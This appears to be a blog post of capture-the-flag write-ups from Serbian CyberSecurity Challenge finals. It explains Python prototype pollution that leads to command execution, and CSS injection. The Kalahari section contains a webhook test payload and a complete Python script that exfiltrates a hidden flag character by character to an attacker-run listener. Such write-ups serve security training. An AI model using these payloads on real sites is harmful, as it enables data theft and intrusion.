





# Overview

In this blog I will do writeups for challenges that were on SCC (Serbian CyberSecurity Challenge) finals.

If you are not interested in reading the whole blog, you can skip to the desired challenge

> - [Challenge `Recruito` -> Python Prototype Pollution](#challenge-recruito)
> - [Challenge `Kalahari` -> CSS Injection]()
> - [Challenge `PHP-FU` -> Arbitrary Method Invocation in PHP]()


## Challenge Recruito

In this challenge we are supposed to use Python Prototype Pollution to pollute the `User` Object.

At first sight when opening the web application we can see the Login page



After opening the source code we were provided with we can find the obvious creds for login


After logging in we can see that we have an option for adding an employee to the app



We can now see our employees on our side, when pressing on any of them we can see we can edit them. Besides that we can see there is `Server` button on the header but we can not access it and it will crash the app with the following error



Interesting, we will keep this in mind.

After reading the source code for a little bit the vulnerability was fairly straightforward, looking at this merge function which is used a lot at the ctf's which merges user input with a class without sanitizing it. This function creates a Python Prototype Pollution vulnerability.

```python
def mergeClass(sourceClass, destinationClass):
    # Recursive merge function
    for key, value in sourceClass.items():
        if hasattr(destinationClass, "__getitem__"):
            if destinationClass.get(key) and type(value) == dict:
                mergeClass(value, destinationClass.get(key))
            else:
                destinationClass[key] = value
        elif hasattr(destinationClass, key) and type(value) == dict:
            mergeClass(value, getattr(destinationClass, key))
        else:
            setattr(destinationClass, key, value)   
    if hasattr(destinationClass, '__globals__'):
        print("Globals: ", json.dumps({k: str(v) for k, v in destinationClass.__globals__.items()}, indent=2))
``` 

When searching up where this function is used in the code we get the result that it is used in `/edit/<int:id>` endpoint, endpoint that is used for editing employees info. With this info we can just do simple Python Prototype Pollution. The question now is, what do we pollute? 🤔

After a little surfing through the code we can see that `/server` endpoint executes a `ping` command (which is useless) and it renders a `server.html` file in which we can see that Admin internal command is run. Looking through the code again I can see where that internal command comes from


```python
from os import popen

class User: pass
class HR(User): pass
class Recruiter(HR): pass
class Admin(User):
    def execute_command(self):
        command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
        return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

```
classes.py

```python
class Admin(User):
    __tablename__ = "admin"
    id = db.Column(db.Integer, db.ForeignKey("user.id"), primary_key=True)

    __mapper_args__ = {"polymorphic_identity": "admin", "with_polymorphic": "*"}

    isAdmin = True

    def execute_command(self, com=""):
        if com == "":
            command = self.internal_command
        else:
            command = com
        return f'{popen(command).read().strip()}'
```

In this file we can see that Admin class checks if the class itself has a `internal_command` set, if there is then it will run the command. If not it will just set the command as an empty string.

With this in mind and the app error you get on `/server` and reading the error in the code the Admin check we can see the following .

```python
def isAdmin(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        token = verifyJWT(request.cookies.get("token"))
        username = getTokenData(request.cookies.get("token"), "username")   
        obj = User.query.filter_by(username=username).first()
        if obj:
            if obj.isAdmin: // THIS PART HERE
                return f(*args, **kwargs)
            else:
                return abort(401, "Unauthorised access detected!")

    return decorator
```

Which means our User Object does not have `isAdmin` defined. Now that we have a general idea what we need to do to get the flag lets get onto the exploitation part.

### Pollution leading to RCE

In python, there is a problem with a prototype pollution which is in Python if you try to pollute the parent object you will get an error saying that you are trying to set `ValueName` attribute to immutable type `object`. This is because Python limits mutating objects,strings,integers... With this in mind we need a gadget that inherits this class or shares the same parent class that will help us pollute. In this case we have a perfect gadget.

```python
from os import popen

class User: pass
class HR(User): pass
class Recruiter(HR): pass
class Admin(User):
    def execute_command(self):
        command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
        return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

```

In this file we can see that `User` class is defined, the next class is `HR` that is a child class of `User`, after that comes `Recruiter` which is a child class of `HR` that is a child of `User`, the last one is class `Admin` which as the `HR` class is a direct child of `User` class. Do you see the pattern here? It doesn't matter what class you choose here (besides `User`) it all points to the `User` class being the parrent class to all classes at the end. This means we can basically use any of these classes as a gadget to pollute our `User` parent class and all of the other classes will inherit the polluted value :D. But on the `/edit` endpoint we can see the `merge` function uses `Employee` class. No problem, that class also inherits `User` class so we can use simple exploit that will pollute all classes at once. Lets get onto it:


Employee class

Exploit Payload:



The explanation goes like this:

`__class__` attribute is used to refer to the class which the object was instantiated. So in our case `__class__ = Employee class`. Next up is `__base__` attribute which you can look at as a "pointer" to its base class (Parent class), so in our case the parent class for `Employee` is `User` class. To understand this a little bit better, if our gadget for pollution was `Recruiter` class to say (The code snipet from before in classes.py) our payload would be `__class__(Recruiter).__base__(HR class).__base__(User class)` where we pointed 2 times "backwards" in our imaginary family tree back to our parents. 

After running the payload from above the values will be polluted and `Recruiter.isAdmin` will return true and `Admin.custom_command` will return `cat /flag.txt` but since we polluted it in the Parent object of all objects if you tried lets say `Recruiter.custom_command` it will also return the flag read command and the same goes for calling `isAdmin` on `Admin` class or others. This challenge supposably has another solution my friend told me about, I unfortunately do not have the final payload for it but to keep it short he used the `Employee` class and added `type:"admin"` to it and after that polluted the `internal_command` but the catch here was the password was being stored and after that checked as a hash. He found a way to bypass this by sending a hashed password (copying the function used in the src which was just generate_password_hash by python werkzeug lib) and when that password was being stored it would not be hashed again, which means he now knew the password hash and could log in with the employee that was an Admin.


# Challenge Kalahari

In this challenge we are supposed to use the `CSS Injection` attack to exfiltrate the flag. 

On the challenge's website we can see a message box in which we can write, and a button to send the message. After sending a message we get redirected to our messages id. Not much of site functionality that we have here. In the source code we can see that we have a bot that visits the URL and thats basically it.

Index Page:


Redirect after sending a message:


While reading the source code we can see that there is a csp header being set on `/messages` endpoint, reading through this csp we can see we cant really get the flag throught XSS. The only thing that seems to be fully allowed `style-src`. It reminded me of the similar HackTheBox challenge I've done before that had CSS Injection and was really similar to this.

```json
{"default-src":"*","script-src":"'self'","img-src":"*","object-src":"'none'","plugin-src":"'none'","style-src":"'self' 'unsafe-inline'","media-src":"'none'","child-src":"'none'","connect-src":"'self'","base-uri":"'none'"}
```

Now that we have an idea that we can maybe do CSS Injection, and in source code we can see that flag is being rendered on the webpage if the user is an admin, and the bot is an admin! The extract since the `flag` is  a hidden attribute which will make the exploit a little bit more complex, but still easy.. In cases if the value you are trying to extract is hidden we have to use additional CSS pseudo ... Lets get onto the interesting part.... EXPLOITATION!

## CSS Injection

So when testing for CSS Injection we can enter a simple payload to see if it will work, for example we can use this one to test it out 

```html
<style>
    body {
        background-image: url("http://your-webhook-url.com");
    }
</style>
```

After sending this, you will get a request to you webhook which means.. WE HAVE CSS INJECTION!

Now for the final exploit there are a lot of ways to extract the flag like using fonts linked to your webhook for specific letters etc.. Here we will try to use the `:has` css pseudo-class.

We will need to make a script for this, since doing this manually will take a long time..

This is the exploit script for this challenge:
```python
from flask import Flask, request, jsonify
import string
import requests
import threading

app = Flask(__name__)

injection_url = 'http://127.0.0.1:5000/submit'

chars = string.printable

flag = "ctf{"
global newCharAgain

def genPayload(flag, character):
    return f'''
    <style>
        div:has(p[data-placeholder^="{flag}{character}"]) {{
            background-image: url("http://127.0.0.1:5555/submit?char={character}");
        }}
    </style>
    '''

@app.route('/submit', methods=['GET'])
def submit():
    global flag
    global newCharAgain
    char = request.args.get('char')
    flag += char
    print(f"New char found, current flag: {flag}")
    newCharAgain = False
    return jsonify({'message': 'Character added to flag successfully'})

def perform_injection():
        global flag
        global newCharAgain

        notFound = True
        while notFound:
            newCharAgain = True
            if "}" in flag:
                print(f"Final flag found: {flag}")
                notFound = False
                break
            else:
                  for i in chars:
                    if not newCharAgain:
                        break
                    payload = genPayload(flag, i)
                      
                    data = {
                          'message': payload
                    }
  
                    sendPayload = requests.post(injection_url, json=data)
                    if "}" in flag:
                        notFound = False
                        break


if __name__ == '__main__':
    injection_thread = threading.Thread(target=perform_injection)
    injection_thread.start()
    app.run(host='0.0.0.0', port=5555)
```

If you don't understand it ask chatgpt to explain it to you since I won't be going into python basics right now.

# Challenge PHP-FU

I've already covered this challenge in my other blog post so I will just link you to the challenge.

[PHP-FU]

I hope you enjoyed this blog post and learned something new. Peace.
